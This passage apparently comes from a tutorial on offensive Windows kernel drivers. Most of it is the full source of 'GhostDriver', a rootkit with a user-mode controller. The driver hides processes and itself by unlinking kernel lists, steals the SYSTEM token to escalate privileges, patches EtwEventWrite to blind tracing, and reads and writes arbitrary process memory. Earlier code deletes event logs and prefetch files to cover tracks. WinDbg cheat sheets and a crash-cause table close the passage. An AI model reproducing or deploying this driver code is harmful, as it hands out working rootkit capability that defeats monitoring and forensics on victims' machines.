    InitializeObjectAttributes(&objAttr, &logPath, OBJ_KERNEL_HANDLE, NULL, NULL);

    return ZwDeleteFile(&objAttr);
}
A more sophisticated approach is to patch the Event Log service in memory
to prevent it from writing new entries.
{: .prompt-tip }

21.3 Removing Prefetch Files
C

NTSTATUS DeletePrefetch(VOID)
{
    UNICODE_STRING dirPath = RTL_CONSTANT_STRING(
        L"\\??\\C:\\Windows\\Prefetch"
    );

    // Enumerate files in directory and delete matching patterns
    // ... (using ZwQueryDirectoryFile + ZwDeleteFile)

    return STATUS_SUCCESS;
}
21.4 Hiding Network Connections
Network connections can be hidden from netstat by hooking
NsiEnumerateObjectsAllParametersEx or by modifying the TCP/UDP endpoint
tables in memory:

C

// TCP connections are tracked in tcpip.sys internal hash table
// (PartitionTable → via nsiproxy.sys)
// Approach: Hook the NSI enumeration or unlink entries.
// This is version-specific and requires reverse engineering tcpip.sys.
Chapter 22: Handling Multiple Windows Versions
One of the biggest challenges in kernel development is dealing with struct
offset changes between Windows versions.

22.1 Runtime Version Detection
C

VOID GetWindowsVersion(PULONG Major, PULONG Minor, PULONG Build)
{
    RTL_OSVERSIONINFOW osInfo = {0};
    osInfo.dwOSVersionInfoSize = sizeof(osInfo);

    RtlGetVersion(&osInfo);

    *Major = osInfo.dwMajorVersion;
    *Minor = osInfo.dwMinorVersion;
    *Build = osInfo.dwBuildNumber;
}
22.2 Offset Table Pattern
C

typedef struct _OFFSETS {
    ULONG ActiveProcessLinks;
    ULONG Token;
    ULONG ImageFileName;
    ULONG UniqueProcessId;
    ULONG Peb;
} OFFSETS, *POFFSETS;

OFFSETS g_Offsets;

NTSTATUS InitializeOffsets(VOID)
{
    ULONG major, minor, build;
    GetWindowsVersion(&major, &minor, &build);

    if (build >= 22621) {
        // Windows 11 22H2+
        g_Offsets.ActiveProcessLinks = 0x448;
        g_Offsets.Token             = 0x4B8;
        g_Offsets.ImageFileName     = 0x5A8;
        g_Offsets.UniqueProcessId   = 0x440;
        g_Offsets.Peb               = 0x550;
    }
    else if (build >= 19041) {
        // Windows 10 2004+
        g_Offsets.ActiveProcessLinks = 0x448;
        g_Offsets.Token             = 0x4B8;
        g_Offsets.ImageFileName     = 0x5A8;
        g_Offsets.UniqueProcessId   = 0x440;
        g_Offsets.Peb               = 0x550;
    }
    else if (build >= 17763) {
        // Windows 10 1809
        g_Offsets.ActiveProcessLinks = 0x2F0;
        g_Offsets.Token             = 0x360;
        g_Offsets.ImageFileName     = 0x450;
        g_Offsets.UniqueProcessId   = 0x2E8;
        g_Offsets.Peb               = 0x3F8;
    }
    else {
        return STATUS_NOT_SUPPORTED;
    }

    return STATUS_SUCCESS;
}
22.3 Dynamic Offset Resolution (PDB-Based)
For production-quality code, download and parse the PDB for ntoskrnl.exe
at runtime:

Read the PE debug directory to get the PDB GUID.
Download from https://msdl.microsoft.com/download/symbols/.
Parse the PDB for struct member offsets.
Cache results.
Libraries like SymParser or custom PDB parsers can do this.

Chapter 23: Complete Offensive Driver — "GhostDriver"
Let's put everything together into a comprehensive offensive driver.

23.1 Feature List
✅ Device object + symbolic link + IOCTL interface
✅ Process memory read/write
✅ Process hiding (DKOM)
✅ Process privilege escalation (token stealing)
✅ Driver self-hiding
✅ Process creation monitoring
✅ ETW patching
✅ Anti-debugging
✅ Unload support with full cleanup
23.2 Shared Header (shared.h)
C

#pragma once

// IOCTL codes
#define IOCTL_GHOST_READ_MEMORY \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_GHOST_WRITE_MEMORY \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_GHOST_HIDE_PROCESS \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_GHOST_ELEVATE_PROCESS \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x803, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_GHOST_DISABLE_ETW \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x804, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_GHOST_PROTECT_PROCESS \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x805, METHOD_BUFFERED, FILE_ANY_ACCESS)

#define IOCTL_GHOST_GET_PROCESS_BASE \
    CTL_CODE(FILE_DEVICE_UNKNOWN, 0x806, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Request structures
typedef struct _READ_WRITE_REQUEST {
    ULONG64 ProcessId;
    ULONG64 Address;
    ULONG64 Size;
    ULONG64 UserBuffer;  // User-mode buffer pointer (for write)
} READ_WRITE_REQUEST, *PREAD_WRITE_REQUEST;

typedef struct _PROCESS_REQUEST {
    ULONG64 ProcessId;
} PROCESS_REQUEST, *PPROCESS_REQUEST;

typedef struct _BASE_ADDRESS_RESPONSE {
    ULONG64 BaseAddress;
} BASE_ADDRESS_RESPONSE, *PBASE_ADDRESS_RESPONSE;
23.3 Driver Source (ghost.c)
C

/*
 * GhostDriver — Complete offensive kernel driver
 *
 * For EDUCATIONAL PURPOSES ONLY.
 */

#include <ntddk.h>
#include <ntstrsafe.h>
#include "shared.h"

/* ============================================================ */
/*  Globals                                                       */
/* ============================================================ */

#define DEVICE_NAME  L"\\Device\\GhostDriver"
#define SYMLINK_NAME L"\\??\\GhostDriver"
#define LOG_PREFIX   "[Ghost] "
#define POOL_TAG     'tshG'

PDEVICE_OBJECT g_DeviceObject = NULL;
ULONG64 g_ProtectedPid = 0;

/* Offsets (Win10 2004+ / Win11) */
ULONG g_OffsetActiveProcessLinks = 0x448;
ULONG g_OffsetToken              = 0x4B8;
ULONG g_OffsetImageFileName      = 0x5A8;
ULONG g_OffsetUniqueProcessId    = 0x440;
ULONG g_OffsetPeb                = 0x550;

/* ============================================================ */
/*  Undocumented imports                                          */
/* ============================================================ */

extern NTSTATUS NTAPI MmCopyVirtualMemory(
    PEPROCESS, PVOID, PEPROCESS, PVOID, SIZE_T, KPROCESSOR_MODE, PSIZE_T
);

NTKERNELAPI PUCHAR PsGetProcessImageFileName(PEPROCESS Process);
NTKERNELAPI PPEB   PsGetProcessPeb(PEPROCESS Process);

/* ============================================================ */
/*  Forward declarations                                          */
/* ============================================================ */

VOID   DriverUnloadRoutine(PDRIVER_OBJECT);
NTSTATUS DispatchCreateClose(PDEVICE_OBJECT, PIRP);
NTSTATUS DispatchDeviceControl(PDEVICE_OBJECT, PIRP);

NTSTATUS ReadProcessMemory(HANDLE, PVOID, PVOID, SIZE_T);
NTSTATUS WriteProcessMemory(HANDLE, PVOID, PVOID, SIZE_T);
NTSTATUS HideProcess(HANDLE);
NTSTATUS ElevateToSystem(HANDLE);
NTSTATUS DisableETW(VOID);
VOID     HideDriver(PDRIVER_OBJECT);
NTSTATUS WriteToReadOnlyMemory(PVOID, PVOID, SIZE_T);
NTSTATUS GetProcessBaseAddress(HANDLE, PULONG64);

/* ============================================================ */
/*  DriverEntry                                                   */
/* ============================================================ */

NTSTATUS
DriverEntry(
    _In_ PDRIVER_OBJECT  DriverObject,
    _In_ PUNICODE_STRING RegistryPath
)
{
    UNREFERENCED_PARAMETER(RegistryPath);
    NTSTATUS status;

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               LOG_PREFIX "DriverEntry — GhostDriver loading...\n");

    /* Create device */
    UNICODE_STRING devName = RTL_CONSTANT_STRING(DEVICE_NAME);
    status = IoCreateDevice(
        DriverObject, 0, &devName,
        FILE_DEVICE_UNKNOWN,
        FILE_DEVICE_SECURE_OPEN,
        FALSE, &g_DeviceObject
    );
    if (!NT_SUCCESS(status)) {
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL,
                   LOG_PREFIX "IoCreateDevice failed: 0x%08X\n", status);
        return status;
    }

    /* Create symbolic link */
    UNICODE_STRING symLink = RTL_CONSTANT_STRING(SYMLINK_NAME);
    status = IoCreateSymbolicLink(&symLink, &devName);
    if (!NT_SUCCESS(status)) {
        IoDeleteDevice(g_DeviceObject);
        return status;
    }

    /* Set dispatch routines */
    DriverObject->MajorFunction[IRP_MJ_CREATE]         = DispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_CLOSE]          = DispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;
    DriverObject->DriverUnload = DriverUnloadRoutine;

    g_DeviceObject->Flags |= DO_BUFFERED_IO;
    g_DeviceObject->Flags &= ~DO_DEVICE_INITIALIZING;

    /* Hide ourselves */
    HideDriver(DriverObject);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               LOG_PREFIX "GhostDriver loaded successfully.\n");

    return STATUS_SUCCESS;
}

/* ============================================================ */
/*  DriverUnload                                                  */
/* ============================================================ */

VOID
DriverUnloadRoutine(_In_ PDRIVER_OBJECT DriverObject)
{
    UNREFERENCED_PARAMETER(DriverObject);

    UNICODE_STRING symLink = RTL_CONSTANT_STRING(SYMLINK_NAME);
    IoDeleteSymbolicLink(&symLink);
    IoDeleteDevice(g_DeviceObject);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               LOG_PREFIX "GhostDriver unloaded.\n");
}

/* ============================================================ */
/*  Dispatch: Create / Close                                      */
/* ============================================================ */

NTSTATUS
DispatchCreateClose(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    UNREFERENCED_PARAMETER(DeviceObject);
    Irp->IoStatus.Status      = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return STATUS_SUCCESS;
}

/* ============================================================ */
/*  Dispatch: DeviceIoControl                                     */
/* ============================================================ */

NTSTATUS
DispatchDeviceControl(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    UNREFERENCED_PARAMETER(DeviceObject);

    PIO_STACK_LOCATION stack = IoGetCurrentIrpStackLocation(Irp);
    NTSTATUS   status = STATUS_SUCCESS;
    ULONG_PTR  info   = 0;

    PVOID  sysBuffer = Irp->AssociatedIrp.SystemBuffer;
    ULONG  inLen     = stack->Parameters.DeviceIoControl.InputBufferLength;
    ULONG  outLen    = stack->Parameters.DeviceIoControl.OutputBufferLength;

    switch (stack->Parameters.DeviceIoControl.IoControlCode)
    {

    /* ---- READ PROCESS MEMORY ---- */
    case IOCTL_GHOST_READ_MEMORY:
    {
        if (inLen < sizeof(READ_WRITE_REQUEST)) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }

        PREAD_WRITE_REQUEST req = (PREAD_WRITE_REQUEST)sysBuffer;
        SIZE_T size = (SIZE_T)req->Size;

        if (outLen < size) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }

        PVOID tempBuf = ExAllocatePool2(POOL_FLAG_NON_PAGED, size, POOL_TAG);
        if (!tempBuf) { status = STATUS_INSUFFICIENT_RESOURCES; break; }

        status = ReadProcessMemory(
            (HANDLE)req->ProcessId,
            (PVOID)req->Address,
            tempBuf, size
        );

        if (NT_SUCCESS(status)) {
            RtlCopyMemory(sysBuffer, tempBuf, size);
            info = size;
        }

        ExFreePoolWithTag(tempBuf, POOL_TAG);
        break;
    }

    /* ---- WRITE PROCESS MEMORY ---- */
    case IOCTL_GHOST_WRITE_MEMORY:
    {
        if (inLen < sizeof(READ_WRITE_REQUEST)) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }

        PREAD_WRITE_REQUEST req = (PREAD_WRITE_REQUEST)sysBuffer;
        SIZE_T size = (SIZE_T)req->Size;

        // The data to write follows the request header in the input buffer
        if (inLen < sizeof(READ_WRITE_REQUEST) + size) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }

        PVOID writeData = (PUCHAR)sysBuffer + sizeof(READ_WRITE_REQUEST);

        status = WriteProcessMemory(
            (HANDLE)req->ProcessId,
            (PVOID)req->Address,
            writeData, size
        );
        break;
    }

    /* ---- HIDE PROCESS ---- */
    case IOCTL_GHOST_HIDE_PROCESS:
    {
        if (inLen < sizeof(PROCESS_REQUEST)) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }
        PPROCESS_REQUEST req = (PPROCESS_REQUEST)sysBuffer;
        status = HideProcess((HANDLE)req->ProcessId);
        break;
    }

    /* ---- ELEVATE PROCESS ---- */
    case IOCTL_GHOST_ELEVATE_PROCESS:
    {
        if (inLen < sizeof(PROCESS_REQUEST)) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }
        PPROCESS_REQUEST req = (PPROCESS_REQUEST)sysBuffer;
        status = ElevateToSystem((HANDLE)req->ProcessId);
        break;
    }

    /* ---- DISABLE ETW ---- */
    case IOCTL_GHOST_DISABLE_ETW:
    {
        status = DisableETW();
        break;
    }

    /* ---- PROTECT PROCESS ---- */
    case IOCTL_GHOST_PROTECT_PROCESS:
    {
        if (inLen < sizeof(PROCESS_REQUEST)) {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }
        PPROCESS_REQUEST req = (PPROCESS_REQUEST)sysBuffer;
        g_ProtectedPid = req->ProcessId;
        DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
                   LOG_PREFIX "Protected PID set to %llu\n", g_ProtectedPid);
        break;
    }

    /* ---- GET PROCESS BASE ADDRESS ---- */
    case IOCTL_GHOST_GET_PROCESS_BASE:
    {
        if (inLen < sizeof(PROCESS_REQUEST) ||
            outLen < sizeof(BASE_ADDRESS_RESPONSE))
        {
            status = STATUS_BUFFER_TOO_SMALL;
            break;
        }

        PPROCESS_REQUEST req = (PPROCESS_REQUEST)sysBuffer;
        ULONG64 base = 0;
        status = GetProcessBaseAddress((HANDLE)req->ProcessId, &base);

        if (NT_SUCCESS(status)) {
            PBASE_ADDRESS_RESPONSE resp = (PBASE_ADDRESS_RESPONSE)sysBuffer;
            resp->BaseAddress = base;
            info = sizeof(BASE_ADDRESS_RESPONSE);
        }
        break;
    }

    default:
        status = STATUS_INVALID_DEVICE_REQUEST;
        break;
    }

    Irp->IoStatus.Status      = status;
    Irp->IoStatus.Information = info;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return status;
}

/* ============================================================ */
/*  Core Functions                                                */
/* ============================================================ */

NTSTATUS ReadProcessMemory(
    HANDLE pid, PVOID src, PVOID dst, SIZE_T size)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    SIZE_T bytes = 0;
    status = MmCopyVirtualMemory(
        process, src,
        PsGetCurrentProcess(), dst,
        size, KernelMode, &bytes
    );

    ObDereferenceObject(process);
    return status;
}

NTSTATUS WriteProcessMemory(
    HANDLE pid, PVOID dst, PVOID src, SIZE_T size)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    SIZE_T bytes = 0;
    status = MmCopyVirtualMemory(
        PsGetCurrentProcess(), src,
        process, dst,
        size, KernelMode, &bytes
    );

    ObDereferenceObject(process);
    return status;
}

NTSTATUS HideProcess(HANDLE pid)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    PLIST_ENTRY entry = (PLIST_ENTRY)(
        (PUCHAR)process + g_OffsetActiveProcessLinks
    );

    PLIST_ENTRY prev = entry->Blink;
    PLIST_ENTRY next = entry->Flink;

    prev->Flink = next;
    next->Blink = prev;

    entry->Flink = entry;
    entry->Blink = entry;

    ObDereferenceObject(process);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               LOG_PREFIX "Process PID=%llu hidden.\n",
               (ULONG64)(ULONG_PTR)pid);

    return STATUS_SUCCESS;
}

NTSTATUS ElevateToSystem(HANDLE targetPid)
{
    PEPROCESS sysProc, tgtProc;

    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)4, &sysProc);
    if (!NT_SUCCESS(status)) return status;

    status = PsLookupProcessByProcessId(targetPid, &tgtProc);
    if (!NT_SUCCESS(status)) {
        ObDereferenceObject(sysProc);
        return status;
    }

    ULONG64 sysToken = *(PULONG64)((PUCHAR)sysProc + g_OffsetToken);
    *(PULONG64)((PUCHAR)tgtProc + g_OffsetToken) = sysToken;

    ObDereferenceObject(tgtProc);
    ObDereferenceObject(sysProc);

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               LOG_PREFIX "PID=%llu elevated to SYSTEM.\n",
               (ULONG64)(ULONG_PTR)targetPid);

    return STATUS_SUCCESS;
}

NTSTATUS DisableETW(VOID)
{
    UNICODE_STRING funcName = RTL_CONSTANT_STRING(L"EtwEventWrite");
    PVOID funcAddr = MmGetSystemRoutineAddress(&funcName);
    if (!funcAddr) return STATUS_NOT_FOUND;

    UCHAR patch[] = { 0x33, 0xC0, 0xC3 }; // xor eax,eax; ret
    return WriteToReadOnlyMemory(funcAddr, patch, sizeof(patch));
}

VOID HideDriver(PDRIVER_OBJECT DriverObject)
{
    typedef struct _KLDR_DATA_TABLE_ENTRY {
        LIST_ENTRY InLoadOrderLinks;
        // ... other fields
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;

    PKLDR_DATA_TABLE_ENTRY entry =
        (PKLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;

    PLIST_ENTRY prev = entry->InLoadOrderLinks.Blink;
    PLIST_ENTRY next = entry->InLoadOrderLinks.Flink;

    prev->Flink = next;
    next->Blink = prev;

    entry->InLoadOrderLinks.Flink = &entry->InLoadOrderLinks;
    entry->InLoadOrderLinks.Blink = &entry->InLoadOrderLinks;

    DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_INFO_LEVEL,
               LOG_PREFIX "Driver hidden from PsLoadedModuleList.\n");
}

NTSTATUS WriteToReadOnlyMemory(PVOID dest, PVOID src, SIZE_T size)
{
    PMDL mdl = IoAllocateMdl(dest, (ULONG)size, FALSE, FALSE, NULL);
    if (!mdl) return STATUS_INSUFFICIENT_RESOURCES;

    MmProbeAndLockPages(mdl, KernelMode, IoReadAccess);

    PVOID mapped = MmMapLockedPagesSpecifyCache(
        mdl, KernelMode, MmNonCached, NULL, FALSE, NormalPagePriority
    );

    if (!mapped) {
        MmUnlockPages(mdl);
        IoFreeMdl(mdl);
        return STATUS_UNSUCCESSFUL;
    }

    NTSTATUS status = MmProtectMdlSystemAddress(mdl, PAGE_READWRITE);
    if (NT_SUCCESS(status)) {
        RtlCopyMemory(mapped, src, size);
    }

    MmUnmapLockedPages(mapped, mdl);
    MmUnlockPages(mdl);
    IoFreeMdl(mdl);
    return status;
}

NTSTATUS GetProcessBaseAddress(HANDLE pid, PULONG64 pBase)
{
    PEPROCESS process;
    NTSTATUS status = PsLookupProcessByProcessId(pid, &process);
    if (!NT_SUCCESS(status)) return status;

    PPEB peb = PsGetProcessPeb(process);
    if (!peb) {
        ObDereferenceObject(process);
        return STATUS_NOT_FOUND;
    }

    // PEB.ImageBaseAddress is at offset 0x10 (x64)
    KAPC_STATE apcState;
    KeStackAttachProcess(process, &apcState);

    __try {
        *pBase = *(PULONG64)((PUCHAR)peb + 0x10);
        status = STATUS_SUCCESS;
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        status = GetExceptionCode();
    }

    KeUnstackDetachProcess(&apcState);
    ObDereferenceObject(process);
    return status;
}
23.4 GhostDriver User-Mode Client (ghost_client.c)
C

/*
 * ghost_client.c — User-mode controller for GhostDriver
 */

#include <Windows.h>
#include <stdio.h>
#include "shared.h"

HANDLE OpenGhostDevice(VOID)
{
    return CreateFileW(
        L"\\\\.\\GhostDriver",
        GENERIC_READ | GENERIC_WRITE,
        0, NULL, OPEN_EXISTING, 0, NULL
    );
}

BOOL GhostReadMemory(
    HANDLE hDev, DWORD pid, ULONG64 addr, PVOID out, SIZE_T size)
{
    READ_WRITE_REQUEST req = {0};
    req.ProcessId = pid;
    req.Address   = addr;
    req.Size      = size;

    BYTE outBuf[4096] = {0};
    DWORD returned = 0;

    BOOL ok = DeviceIoControl(
        hDev, IOCTL_GHOST_READ_MEMORY,
        &req, sizeof(req),
        outBuf, (DWORD)size,
        &returned, NULL
    );

    if (ok && returned >= size) {
        CopyMemory(out, outBuf, size);
    }

    return ok;
}

BOOL GhostWriteMemory(
    HANDLE hDev, DWORD pid, ULONG64 addr, PVOID data, SIZE_T size)
{
    SIZE_T totalIn = sizeof(READ_WRITE_REQUEST) + size;
    PBYTE inBuf = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, totalIn);
    if (!inBuf) return FALSE;

    PREAD_WRITE_REQUEST req = (PREAD_WRITE_REQUEST)inBuf;
    req->ProcessId = pid;
    req->Address   = addr;
    req->Size      = size;
    CopyMemory(inBuf + sizeof(READ_WRITE_REQUEST), data, size);

    DWORD returned = 0;
    BOOL ok = DeviceIoControl(
        hDev, IOCTL_GHOST_WRITE_MEMORY,
        inBuf, (DWORD)totalIn,
        NULL, 0, &returned, NULL
    );

    HeapFree(GetProcessHeap(), 0, inBuf);
    return ok;
}

BOOL GhostHideProcess(HANDLE hDev, DWORD pid)
{
    PROCESS_REQUEST req = { .ProcessId = pid };
    DWORD returned = 0;
    return DeviceIoControl(
        hDev, IOCTL_GHOST_HIDE_PROCESS,
        &req, sizeof(req), NULL, 0, &returned, NULL
    );
}

BOOL GhostElevate(HANDLE hDev, DWORD pid)
{
    PROCESS_REQUEST req = { .ProcessId = pid };
    DWORD returned = 0;
    return DeviceIoControl(
        hDev, IOCTL_GHOST_ELEVATE_PROCESS,
        &req, sizeof(req), NULL, 0, &returned, NULL
    );
}

BOOL GhostDisableETW(HANDLE hDev)
{
    DWORD returned = 0;
    return DeviceIoControl(
        hDev, IOCTL_GHOST_DISABLE_ETW,
        NULL, 0, NULL, 0, &returned, NULL
    );
}

BOOL GhostGetBase(HANDLE hDev, DWORD pid, PULONG64 base)
{
    PROCESS_REQUEST req = { .ProcessId = pid };
    BASE_ADDRESS_RESPONSE resp = {0};
    DWORD returned = 0;

    BOOL ok = DeviceIoControl(
        hDev, IOCTL_GHOST_GET_PROCESS_BASE,
        &req, sizeof(req),
        &resp, sizeof(resp),
        &returned, NULL
    );

    if (ok) *base = resp.BaseAddress;
    return ok;
}

int main(int argc, char* argv[])
{
    if (argc < 2) {
        printf("Usage:\n");
        printf("  ghost_client hide  <pid>\n");
        printf("  ghost_client elev  <pid>\n");
        printf("  ghost_client etw\n");
        printf("  ghost_client base  <pid>\n");
        printf("  ghost_client read  <pid> <addr> <size>\n");
        return 1;
    }

    HANDLE hDev = OpenGhostDevice();
    if (hDev == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open GhostDriver: %lu\n", GetLastError());
        return 1;
    }

    if (_stricmp(argv[1], "hide") == 0 && argc >= 3) {
        DWORD pid = atoi(argv[2]);
        if (GhostHideProcess(hDev, pid))
            printf("[+] Process %u hidden.\n", pid);
        else
            printf("[-] Failed: %lu\n", GetLastError());
    }
    else if (_stricmp(argv[1], "elev") == 0 && argc >= 3) {
        DWORD pid = atoi(argv[2]);
        if (GhostElevate(hDev, pid))
            printf("[+] Process %u elevated to SYSTEM.\n", pid);
        else
            printf("[-] Failed: %lu\n", GetLastError());
    }
    else if (_stricmp(argv[1], "etw") == 0) {
        if (GhostDisableETW(hDev))
            printf("[+] ETW disabled.\n");
        else
            printf("[-] Failed: %lu\n", GetLastError());
    }
    else if (_stricmp(argv[1], "base") == 0 && argc >= 3) {
        DWORD pid = atoi(argv[2]);
        ULONG64 base = 0;
        if (GhostGetBase(hDev, pid, &base))
            printf("[+] PID %u base: 0x%llX\n", pid, base);
        else
            printf("[-] Failed: %lu\n", GetLastError());
    }
    else if (_stricmp(argv[1], "read") == 0 && argc >= 5) {
        DWORD pid = atoi(argv[2]);
        ULONG64 addr = _strtoui64(argv[3], NULL, 16);
        SIZE_T size = (SIZE_T)atoi(argv[4]);

        PBYTE buf = (PBYTE)calloc(1, size);
        if (GhostReadMemory(hDev, pid, addr, buf, size)) {
            printf("[+] Read %zu bytes from PID %u @ 0x%llX:\n", size, pid, addr);
            for (SIZE_T i = 0; i < size; i++) {
                printf("%02X ", buf[i]);
                if ((i + 1) % 16 == 0) printf("\n");
            }
            printf("\n");
        } else {
            printf("[-] Failed: %lu\n", GetLastError());
        }
        free(buf);
    }

    CloseHandle(hDev);
    return 0;
}
Part IV — Debugging, Testing, and Operational Security
Chapter 24: Kernel Debugging with WinDbg — Essential Commands
24.1 Connection Cheat Sheet
text

# Network
windbg -k net:port=50000,key=1.2.3.4

# Serial (named pipe)
windbg -k com:pipe,port=\\.\pipe\com1,resets=0,reconnect

# Local kernel debugging (limited)
windbg -kl
24.2 Must-Know Commands
text

# Basic
g                           ; Go (continue execution)
Ctrl+Break                  ; Break into debugger
.reload                     ; Reload symbols
lm                          ; List loaded modules
lm m nt*                    ; Find ntoskrnl
x nt!Ps*                    ; List symbols matching Ps*

# Breakpoints
bp nt!NtCreateFile           ; Set breakpoint
bl                          ; List breakpoints
bc *                        ; Clear all breakpoints
ba w 4 ffffXXXX             ; Break on write to address

# Memory
db <addr>                   ; Display bytes
dq <addr>                   ; Display qwords
dd <addr>                   ; Display dwords
da <addr>                   ; Display ASCII
du <addr>                   ; Display Unicode

# Stack
k                           ; Call stack
kp                          ; With parameters
kf                          ; With frame sizes

# Structures
dt nt!_EPROCESS <addr>      ; Display structure
dt nt!_EPROCESS             ; Show layout only
dt nt!_EPROCESS ActiveProcessLinks  ; Show specific field offset

# Process
!process 0 0                ; List all processes (brief)
!process 0 17               ; Detailed for all
!process <EPROCESS> 17      ; Detailed for specific

# Driver
!drvobj \Driver\MyDriver 7  ; Display driver object
!devobj <DevObj>             ; Display device object

# Pool
!pool <addr>                ; Pool block info
!poolfind <tag>             ; Find pool blocks by tag

# Search
s -b <range> XX XX XX       ; Search bytes in range
s -a <range> "string"       ; Search ASCII string

# Registers
r                           ; Display registers
r rax=0                     ; Set register

# Disassemble
u <addr>                    ; Unassemble
uf <func>                   ; Unassemble function
24.3 Debugging Your Driver
text

# 1. Load symbols for your driver
.sympath+ C:\path\to\your\driver\x64\Debug
.reload

# 2. Set breakpoint on DriverEntry
bu GhostDriver!DriverEntry
g

# 3. When it breaks, step through
p                           ; Step over
t                           ; Step into
pt                          ; Step to next return
gu                          ; Go up (finish current function)

# 4. Examine variables
?? DriverObject
dv                          ; Display local variables
24.4 Analyzing a BSOD
After a BSOD, analyze the dump:

text

# Open dump file
windbg -z C:\Windows\MEMORY.DMP

# Automatic analysis
!analyze -v

# It will show:
# - Bug check code
# - Faulting module
# - Stack trace
# - Responsible driver
Chapter 25: Common Pitfalls and How to Avoid Them
25.1 BSOD Causes and Solutions
| Symptom | Cause | Solution |
| IRQL_NOT_LESS_OR_EQUAL (0xA) | Accessing paged memory at DISPATCH_LEVEL+ | Use non-paged pool; don't touch user addresses at high IRQL |
| KERNEL_DATA_INPAGE_ERROR | Paged memory not available | Ensure memory is locked or non-paged |
| PAGE_FAULT_IN_NONPAGED_AREA (0x50) | Accessing freed/invalid memory | Check pointer validity; don't use-after-free |
| SYSTEM_SERVICE_EXCEPTION (0x3B) | Exception in system call handler | Wrap user-mode access in __try/__except |
| CRITICAL_STRUCTURE_CORRUPTION (0x109) | PatchGuard detected modification | Don't modify protected structures on production builds |
| DRIVER_IRQL_NOT_LESS_OR_EQUAL (0xD1) | Driver accessing bad memory at high IRQL | Same as 0xA but the faulting instruction is in a driver |
| KMODE_EXCEPTION_NOT_HANDLED (0x1E) | Unhandled exception in kernel mode | Add __try/__except; validate all pointers |
25.2 Race Conditions
The kernel is highly concurrent. Common race condition sources:

Walking linked lists while another CPU is modifying them.
Accessing process structures after the process has exited.
Mitigations:

